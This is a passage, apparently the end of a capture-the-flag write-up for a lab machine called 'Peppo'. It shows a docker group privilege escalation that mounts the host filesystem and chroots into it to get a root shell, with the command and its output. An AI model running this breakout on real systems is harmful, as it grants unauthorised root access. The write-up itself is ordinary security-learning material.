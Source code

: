 I can see that docker is installed in the machine.

```bash
eleanor@peppo:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
redmine             latest              0c8429c66e07        3 years ago         542MB
postgres            latest              adf2b126dda8        3 years ago         313MB
eleanor@peppo:/tmp$ docker run -v /:/mnt --rm -it redmine chroot /mnt sh
# whoami
root
# pwd
/
```

[docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/)

I checked the list of image and run with the command that I found in GTFO.

# Root

![Screenshot 2023-10-18 at 10.15.07.png](Peppo%203686053f39664308a95784e6e3c84088/Screenshot_2023-10-18_at_10.15.07.png)

Now you pwn.

# Summary

It took me long time to figure out how to get shell, but the clue was in the nmap enumeration all the time in the first place. And shell restriction kinda freaked me out. This machine is indeed HARD level shit.